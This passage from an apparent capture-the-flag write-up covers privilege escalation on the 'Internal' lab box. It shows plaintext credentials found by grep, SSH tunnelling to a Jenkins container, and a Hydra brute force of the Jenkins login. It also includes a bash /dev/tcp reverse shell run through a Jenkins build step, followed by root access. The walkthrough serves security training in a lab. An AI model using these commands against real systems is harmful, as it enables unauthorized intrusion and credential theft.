Ruled out: there's no flag file reachable directly as `www-data`; the flag almost certainly sits in another user's home directory this account can't read into. I checked `sudo` access as a shortcut past that:

```shell
www-data@internal:/$ sudo -l

[sudo] password for www-data: 
Sorry, try again.
[sudo] password for www-data: 
sudo: 1 incorrect password attempt
```

I tried the WordPress admin password here, which was rejected. Dead end — `www-data` has no usable sudo access with that password. I checked `/etc/passwd` for other local accounts to target instead:

```shell
www-data@internal:/$ cat /etc/passwd

root:x:0:0:root:/root:/bin/bash
—SNIP—
aubreanna:x:1000:1000:aubreanna:/home/aubreanna:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
```

`aubreanna` stood out as the one real human account (UID 1000, with a usable login shell, unlike the system accounts around it). I searched the filesystem for any file mentioning her name, in case credentials for her had been left lying around.

```shell
www-data@internal:/$ grep -rnw / -e "aubreanna" 2>/dev/null

/opt/wp-save.txt:5:aubreanna:bubb13guM!@#123
```

**Breakdown:**

- `grep -rnw / -e "aubreanna"` recursively (`-r`) searches from the filesystem root, printing line numbers (`-n`), matching the search term as a whole word (`-w`), with the pattern given via `-e`

```shell
www-data@internal:/$ cat /opt/wp-save.txt 

Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```

Confirmed: a note file containing her plaintext credentials, `aubreanna:bubb13guM!@#123`. I switched user to her directly:

```shell
www-data@internal:/$ su aubreanna 

Password: 
aubreanna@internal:/$ 
```

```shell
aubreanna@internal:/$ sudo -l

[sudo] password for aubreanna: 
Sorry, user aubreanna may not run sudo on internal.
```

This time the message is a permissions denial rather than a wrong password — ruled out: `aubreanna` genuinely has no sudo rights on this host at all, regardless of password. I went back to the flag search, now as her:

```shell
aubreanna@internal:/$ find / -type f -name "*.txt" 2>/dev/null | grep -i user

/var/lib/cloud/instances/iid-datasource-none/user-data.txt
/home/aubreanna/user.txt
—SNIP—
```

```shell
aubreanna@internal:/$ cat /home/aubreanna/user.txt

—REDACTED—
```

**Answer:** `—REDACTED—`

## Root.txt

I looked around her home directory for anything else useful:

```shell
aubreanna@internal:/$ cd ~
aubreanna@internal:~$ ls

jenkins.txt  snap  user.txt
```

```shell
aubreanna@internal:~$ cat jenkins.txt

Internal Jenkins service is running on 172.17.0.2:8080
```

I wasn't familiar with Jenkins at this point, so I looked it up.



I checked the host's network interfaces to understand how `172.17.0.2` related to the box I was on.

```shell
aubreanna@internal:~$ ifconfig

docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
—SNIP—
ens5: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 9001
        inet 10.114.168.23  netmask 255.255.192.0  broadcast 10.114.191.255
—SNIP—
```

Confirmed: `docker0` at `172.17.0.1` places the Jenkins service in a Docker container's internal network, reachable only from inside this host — not directly from my attacker machine. To reach it, I used `aubreanna`'s SSH access as a pivot, local-port-forwarding my own port 8080 to the container's address:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ssh -L 8080:172.17.0.2:8080 aubreanna@internal.thm

aubreanna@internal.thm's password: 
—SNIP—
aubreanna@internal:~$ 
```

**Breakdown:**

- `ssh` opens the SSH connection
- `-L 8080:172.17.0.2:8080` sets up local port forwarding: connections to port 8080 on my own machine are tunnelled through this SSH session and delivered to `172.17.0.2:8080` as seen from the target host, letting me reach the otherwise-unreachable Docker container
- `aubreanna@internal.thm` is the user and host to SSH into

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ netstat -antp | grep 8080                                            

tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      19972/ssh           
```

This confirmed the tunnel was up and listening locally. Visiting `localhost:8080` in my own browser reached the Jenkins login page.



I tried several manual credential guesses — `admin:admin`, `admin:my2boys`, `aubreanna:bubb13guM!@#123`, `aubreanna:aubreanna`, and `jenkins:jenkins`. I captured one of these attempts with the browser's developer tools to see the request shape:





All of these manual attempts failed, landing back on the login page with an error each time.



With a confirmed username (`admin`) and knowledge of the exact login endpoint and POST parameters from the captured request, I moved to a wordlist-based brute force with Hydra, trying a short list of candidate usernames against it:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ for name in admin jenkins audreanna; do echo $name >> username.txt; done                                                                                                                  
```

**Breakdown:** a shell `for` loop iterating over the three candidate usernames, appending each one as its own line to `username.txt` with `echo ... >> username.txt`.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ cat username.txt          

admin
jenkins
audreanna
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ hydra -L username.txt -P /usr/share/wordlists/rockyou.txt localhost -s 8080 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password" 

[DATA] attacking http-post-form://localhost:8080/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password
[8080][http-post-form] host: localhost   login: admin   password: spongebob
```

**Breakdown:**

- `hydra` is the brute-force login tool
- `-L username.txt` supplies the list of candidate usernames
- `-P /usr/share/wordlists/rockyou.txt` supplies the password wordlist
- `localhost` is the target host (reached through the SSH tunnel)
- `-s 8080` sets the target port
- `http-post-form` selects the HTTP POST-form brute-force module
- the quoted string is the module's own argument, in three colon-separated parts: the login endpoint path (`/j_acegi_security_check`), the POST body template with `^USER^`/`^PASS^` as substitution markers (matching the field names `j_username`/`j_password` seen in the captured request), and the string that identifies a failed login (`Invalid username or password`, matching the error text seen on screen)

This found working credentials: `admin` / `spongebob`. I logged in and reached the Jenkins dashboard.



Jenkins jobs run arbitrary shell commands as part of their build steps, so I created a new Freestyle project to use as a code-execution vector.



In the job's Build section, I added an "Execute shell" build step.



I filled it with a bash reverse shell one-liner pointed at my own listener:



```shell
bash -c 'bash -i >& /dev/tcp/—REDACTED—/1234 0>&1'
```

With a listener running, I triggered the job:



```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ netcat -lvnp 1234

listening on [any] 1234 ...
connect to [—REDACTED—] from (UNKNOWN) [10.114.168.23] 51270
bash: cannot set terminal process group (6): Inappropriate ioctl for device
bash: no job control in this shell
jenkins@jenkins:~/workspace/reverseShell$ 
```

The shell connected as `jenkins`, inside the container (the prompt itself, `jenkins@jenkins`, confirms this is the separate Docker container host, not the outer Ubuntu box the earlier shells ran on).

```shell
jenkins@jenkins:~/workspace/reverseShell$ whoami

jenkins
```

I upgraded this shell the same way as before:

```shell
jenkins@jenkins:~/workspace/reverseShell$ python -c 'import pty; pty.spawn("/bin/bash")'

jenkins@jenkins:~/workspace/reverseShell$ ^Z
zsh: suspended  netcat -lvnp 1234
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ stty raw -echo; fg 

[1]  + continued  netcat -lvnp 1234

jenkins@jenkins:~/workspace/reverseShell$ export TERM=xterm-256color
jenkins@jenkins:~/workspace/reverseShell$ stty rows 52 columns 236
```

I looked around the Jenkins home directory for anything useful, and checked for sudo access:

```shell
jenkins@jenkins:~$ pwd

/var/jenkins_home/workspace/reverseShell

jenkins@jenkins:~$ cd ~
jenkins@jenkins:~$ ls

com.cloudbees.hudson.plugins.folder.config.AbstractFolderConfiguration.xml  identity.key.enc  jobs  queue.xml  tini_pub.gpg  workflow-libs
config.xml  jenkins.install.InstallUtil.lastExecVersion  logs  queue.xml.bak  updates  workspace
copy_reference_file.log  jenkins.install.UpgradeWizard.state  nodeMonitors.xml  secret.key  userContent
hudson.model.UpdateCenter.xml  jenkins.model.JenkinsLocationConfiguration.xml  nodes  secret.key.not-so-secret	 users
hudson.plugins.git.GitTool.xml  jenkins.telemetry.Correlator.xml  plugins  secrets  war

jenkins@jenkins:~$ sudo -l

bash: sudo: command not found
```

Ruled out: `sudo` isn't even installed in this container, so that path is closed entirely. I searched the container's filesystem for any mention of "root", the same technique that had found `aubreanna`'s credentials earlier:

```shell
jenkins@jenkins:~$ grep -rnw / -e "root" 2>/dev/null

/opt/note.txt:4:need access to the root user account.
/opt/note.txt:6:root:tr0ub13guM!@#123
/proc/cmdline:1:BOOT_IMAGE=/vmlinuz-4.15.0-112-generic root=/dev/mapper/ubuntu--vg-ubuntu--lv ro maybe-ubiquity console=ttyS0
```

```shell
jenkins@jenkins:~$ cd /opt
jenkins@jenkins:/opt$ cat note.txt

Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```

Confirmed: credentials for the outer host's `root` account, deliberately stashed inside the Jenkins container on the assumption that reaching it would be harder than reaching the host directly. I used them to SSH into the outer box as root:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ssh root@internal.thm  

root@internal.thm's password: 
—SNIP—
root@internal:~# 
```

```shell
root@internal:~# ls

root.txt  snap

root@internal:~# cat root.txt

—REDACTED—
```

**Answer:** `—REDACTED—`